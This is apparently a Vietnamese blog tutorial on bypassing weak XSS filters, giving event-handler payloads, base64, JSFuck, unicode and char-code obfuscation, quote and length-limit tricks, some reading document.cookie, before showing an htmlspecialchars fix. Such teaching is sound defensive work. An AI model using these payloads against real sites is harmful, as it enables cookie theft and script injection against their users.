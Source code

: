 ```yaml
---
title: XSS Bypass
date: 2025-03-19 15:33:20
tags: [Blog, XSS]
categories: [Công nghệ, Lập trình, Security]
author: Đạt
description: Một số cách bypass XSS 
---
```



Có vô vàn cách filter XSS nhưng không phải cách nào cũng hiệu quả 
<h2>1. Filter script</h2>

```php
<?php
function filter($input) {
    return preg_replace('/<script/', '', $input);
}

if (isset($_GET['name'])) {
    echo 'Hello ' . filter($_GET['name']);
}
?>
```

Bạn nghĩ sao về đoạn mã này về việc phòng chống XSS 
Có bao nhiêu cách để bypass được đoạn mã này ?
<h3>Cách 1 : Thực thi script không nhất thiết phải có thẻ script </h3>

```html
<xml onreadystatechange=alert(1)></xml>

<style onload=alert(1)></style>

<iframe onload=alert(1)></iframe>

<img type=image src=valid.gif onreadystatechange=alert(1)>

<isindex type=image src=valid.gif onreadystatechange=alert(1)>

<script onreadystatechange=alert(1)></script>

<bgsound onpropertychange=alert(1)></bgsound>

<body onbeforeactivate=alert(1)></body>

<body onactivate=alert(1)></body>

<input autofocus onfocus=alert(1)>

<input onblur=alert(1) autofocus>

<body onscroll=alert(1)>
    <br><br>...
    <br><input autofocus>
</body>

<a onmousemove=alert(1)></a>

<audio src=1 onerror=alert(1)></audio>

<video src=1 onerror=alert(1)></video>

<iframe src=javascript:alert(1)></iframe>

<form id=test>
    <button form=test formaction=javascript:alert(1)></button>
</form>

<event-source src=valid.gif onreadystatechange=alert(1)></event-source>

<object onerror=alert(1)></object>

<object type=image src=valid.gif onreadystatechange=alert(1)></object>

<object data="data:text/html;base64,PHNjcmlwdD5hbGVydCgxKTwvc2NyaXB0Pg=="></object>

<a href="data:text/html;base64,PHNjcmlwdD5hbGVydCgxKTwvc2NyaXB0Pg==">Click here</a>

<embed src=javascript:alert(1)></embed>
```
Trick : Cách test XSS payload nhanh nhất là gán đoạn mã dưới đây lên url rồi thay đổi payload muốn test thôi. Đống payload trên có mấy cái không chạy được =)) 
```html
data:text/html,<script>alert('XSS!')</script>
```


<h3>Cách 2 : Server đã loại bỏ tất cả input có chứa script.  </h3>

    Cách này khá đơn gian, bypass đơn giản bằng cách thay script thành SCRIPT hoặc ScRiPt, …



<h3> Cách 3 : Nếu filter kí tự đặc biệt thì sao ? như filter dấu < > " / </h3>
Sử dụng base64 để bypass ( thực tế dùng khá nhiều và cũng là high level  )

Sử dụng combo này python này 
```python
javascript_code = base64.b64encode('alert(origin)'.encode("ascii")).decode("ascii") # encode alert(origin) YWxlcnQob3JpZ2luKQ==
PAYLOAD_XSS="<img src=aaa onerror=eval(atob('{}'))>".format(javascript_code) # input base64 vô đây
```
```html 
Ta được payload 
<img src=aaa onerror=eval(atob("YWxlcnQob3JpZ2luKQ=="))>

Test ngay 
data:text/html,<img src=aaa onerror=eval(atob("YWxlcnQob3JpZ2luKQ=="))>
```
Tuyệt ! thử nghiệm XSS thành công
<img src="/images/XSS-la-gi/4.png" />
<a href="data:text/html,<img src=aaa onerror=eval(atob('YWxlcnQob3JpZ2luKQ=='))>">Click vô đây để test </a>

Ở đây là cách dùng base64 nói riêng, hãy thay thế bằng các hàm mã hoá khác tương tự nhé 

<h3>Cách 4 : JSFuck </h3>

Nó liên quan đến trang https://jsfuck.com 
Ví dụ tôi có payload test sau 
```html
data:text/html,<svg onload='alert(1)'>
```
nhét cái alert(1) vào JSFuck ta được đồng hỗn độn 
<img src="/images/XSS-la-gi/5.png" />
```text
[][(![]+[])[+!+[]]+(!![]+[])[+[]]][([][(![]+[])[+!+[]]+(!![]+[])[+[]]]+[])[!+[]+!+[]+!+[]]+(!![]+[][(![]+[])[+!+[]]+(!![]+[])[+[]]])[+!+[]+[+[]]]+([][[]]+[])[+!+[]]+(![]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+[]]+(!![]+[])[+!+[]]+([][[]]+[])[+[]]+([][(![]+[])[+!+[]]+(!![]+[])[+[]]]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+[]]+(!![]+[][(![]+[])[+!+[]]+(!![]+[])[+[]]])[+!+[]+[+[]]]+(!![]+[])[+!+[]]]((!![]+[])[+!+[]]+(!![]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+[]]+([][[]]+[])[+[]]+(!![]+[])[+!+[]]+([][[]]+[])[+!+[]]+(+[![]]+[][(![]+[])[+!+[]]+(!![]+[])[+[]]])[+!+[]+[+!+[]]]+(!![]+[])[!+[]+!+[]+!+[]]+(+(!+[]+!+[]+!+[]+[+!+[]]))[(!![]+[])[+[]]+(!![]+[][(![]+[])[+!+[]]+(!![]+[])[+[]]])[+!+[]+[+[]]]+([]+[])[([][(![]+[])[+!+[]]+(!![]+[])[+[]]]+[])[!+[]+!+[]+!+[]]+(!![]+[][(![]+[])[+!+[]]+(!![]+[])[+[]]])[+!+[]+[+[]]]+([][[]]+[])[+!+[]]+(![]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+[]]+(!![]+[])[+!+[]]+([][[]]+[])[+[]]+([][(![]+[])[+!+[]]+(!![]+[])[+[]]]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+[]]+(!![]+[][(![]+[])[+!+[]]+(!![]+[])[+[]]])[+!+[]+[+[]]]+(!![]+[])[+!+[]]][([][[]]+[])[+!+[]]+(![]+[])[+!+[]]+((+[])[([][(![]+[])[+!+[]]+(!![]+[])[+[]]]+[])[!+[]+!+[]+!+[]]+(!![]+[][(![]+[])[+!+[]]+(!![]+[])[+[]]])[+!+[]+[+[]]]+([][[]]+[])[+!+[]]+(![]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+[]]+(!![]+[])[+!+[]]+([][[]]+[])[+[]]+([][(![]+[])[+!+[]]+(!![]+[])[+[]]]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+[]]+(!![]+[][(![]+[])[+!+[]]+(!![]+[])[+[]]])[+!+[]+[+[]]]+(!![]+[])[+!+[]]]+[])[+!+[]+[+!+[]]]+(!![]+[])[!+[]+!+[]+!+[]]]](!+[]+!+[]+!+[]+[!+[]+!+[]])+(![]+[])[+!+[]]+(![]+[])[!+[]+!+[]])()((![]+[])[+!+[]]+(![]+[])[!+[]+!+[]]+(!![]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+!+[]]+(!![]+[])[+[]]+([][(![]+[])[+!+[]]+(!![]+[])[+[]]]+[])[+!+[]+[+!+[]]]+[+!+[]]+([]+[]+[][(![]+[])[+!+[]]+(!![]+[])[+[]]])[+!+[]+[!+[]+!+[]]])
```
Vã luôn thôi 

```html
data:text/html,<svg onload='[][(![]+[])[+!+[]]+(!![]+[])[+[]]][([][(![]+[])[+!+[]]+(!![]+[])[+[]]]+[])[!+[]+!+[]+!+[]]+(!![]+[][(![]+[])[+!+[]]+(!![]+[])[+[]]])[+!+[]+[+[]]]+([][[]]+[])[+!+[]]+(![]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+[]]+(!![]+[])[+!+[]]+([][[]]+[])[+[]]+([][(![]+[])[+!+[]]+(!![]+[])[+[]]]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+[]]+(!![]+[][(![]+[])[+!+[]]+(!![]+[])[+[]]])[+!+[]+[+[]]]+(!![]+[])[+!+[]]]((!![]+[])[+!+[]]+(!![]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+[]]+([][[]]+[])[+[]]+(!![]+[])[+!+[]]+([][[]]+[])[+!+[]]+(+[![]]+[][(![]+[])[+!+[]]+(!![]+[])[+[]]])[+!+[]+[+!+[]]]+(!![]+[])[!+[]+!+[]+!+[]]+(+(!+[]+!+[]+!+[]+[+!+[]]))[(!![]+[])[+[]]+(!![]+[][(![]+[])[+!+[]]+(!![]+[])[+[]]])[+!+[]+[+[]]]+([]+[])[([][(![]+[])[+!+[]]+(!![]+[])[+[]]]+[])[!+[]+!+[]+!+[]]+(!![]+[][(![]+[])[+!+[]]+(!![]+[])[+[]]])[+!+[]+[+[]]]+([][[]]+[])[+!+[]]+(![]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+[]]+(!![]+[])[+!+[]]+([][[]]+[])[+[]]+([][(![]+[])[+!+[]]+(!![]+[])[+[]]]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+[]]+(!![]+[][(![]+[])[+!+[]]+(!![]+[])[+[]]])[+!+[]+[+[]]]+(!![]+[])[+!+[]]][([][[]]+[])[+!+[]]+(![]+[])[+!+[]]+((+[])[([][(![]+[])[+!+[]]+(!![]+[])[+[]]]+[])[!+[]+!+[]+!+[]]+(!![]+[][(![]+[])[+!+[]]+(!![]+[])[+[]]])[+!+[]+[+[]]]+([][[]]+[])[+!+[]]+(![]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+[]]+(!![]+[])[+!+[]]+([][[]]+[])[+[]]+([][(![]+[])[+!+[]]+(!![]+[])[+[]]]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+[]]+(!![]+[][(![]+[])[+!+[]]+(!![]+[])[+[]]])[+!+[]+[+[]]]+(!![]+[])[+!+[]]]+[])[+!+[]+[+!+[]]]+(!![]+[])[!+[]+!+[]+!+[]]]](!+[]+!+[]+!+[]+[!+[]+!+[]])+(![]+[])[+!+[]]+(![]+[])[!+[]+!+[]])()((![]+[])[+!+[]]+(![]+[])[!+[]+!+[]]+(!![]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+!+[]]+(!![]+[])[+[]]+([][(![]+[])[+!+[]]+(!![]+[])[+[]]]+[])[+!+[]+[+!+[]]]+[+!+[]]+([]+[]+[][(![]+[])[+!+[]]+(!![]+[])[+[]]])[+!+[]+[!+[]+!+[]]])'>
```
Chan đê...chan đê...


<h3>Cách 5 : Unichan code </h3>

Nó là unicode ạ =)) 

```html
data:text/html,<script>alert(origin)</script>
```
Ví dụ filter XSS bằng cách không cho dùng kí tự origin
-> bypass thành 
```html 
data:text/html,<script>alert(\u006frigin)</script>
```
<img src="/images/XSS-la-gi/6.png" />
Lưu ý : unicode chỉ dùng được cho các kí tự bên trong, như nếu dùng cho giá trị thẻ script thì không được
<img src="/images/XSS-la-gi/7.png" />


Nếu ta unicode giá trị alert và origin
```html
data:text/html,<script>\u0061\u006c\u0065\u0072\u0074(origin)</script>

data:text/html,<script>\u0061\u006c\u0065\u0072\u0074(\u006f\u0072\u0069\u0067\u0069\u006e)</script>    
// Dấu ( và ) phải được giữ nguyên vì unicode 2 cái dấu này thì không nhận đâu nhé -> payload lỏ luôn  
```
<img src="/images/XSS-la-gi/8.png" />

<h3>Cách 6 : Cộng chuỗi </h3>

Ví dụ nó filter XSS bằng cách không cho dùng kí tự origin

```html
data:text/html,<script>alert("ori"+"gin")</script>
```

<h3>Cách 7 : Char Code </h3>

Hiểu đơn giản là chuyển từ kí tự thành số tương ứng.
```javascript 
const str = "origin";
const charCodes = str.split("").map(char => char.charCodeAt(0));
console.log(charCodes);
```



coppy nguyên đống code này vào trong console của trình duyệt 
<img src="/images/XSS-la-gi/9.png" />


=> ta có payload hoàn chỉnh 
```html
data:text/html,<script>eval(alert(String.fromCharCode(111,114,105,103,105,110)))</script>
```

<h3>Sanitize kí tự quote,doublequote </h3>

quote,doublequote là ' và " nhé các quý đọc giả
Server phát hiện kí tự double quote và sanitize bằng cách thêm dấu \ phía trước.

Bypass bằng \”, kí tự \ đầu tiên sẽ triệt tiêu hiệu quả của dấu \ được chèn vào, nên “ vẫn có hiệu lực để unquote string.
Điểm yếu. nếu nó Sanitize 

<h3>Giới hạn số lượng đầu vào</h3>

<img src="/images/XSS-la-gi/10.png" />
Mục đích của đoạn mã: Nhận tham số name từ URL thông qua $_GET, sau đó giới hạn độ dài chuỗi đầu vào tối đa 41 ký tự và hiển thị kết quả.

Bypass: Chuyển Reflected XSS thành DOM based XSS

( Mình test thử cách này méo hoạt động nên không recomment cách này lắm )
```html 
data:text/html,eval(unescape(location)#%0Aalert(document.cookie)

data:text/html,<script>alert(document./*&age=*/cookie)</script>

```














Ok vậy thì cách fix như nào là hợp lý nhỉ ?
```php
<?php
function filter($input) {
    return htmlspecialchars($input, ENT_QUOTES, 'UTF-8');
}

if (isset($_GET['name'])) {
    echo 'Hello ' . filter($_GET['name']);
}
?>
```

htmlspecialchars() giúp mã hóa các ký tự đặc biệt như < > " &, bảo vệ tốt hơn chống lại XSS.
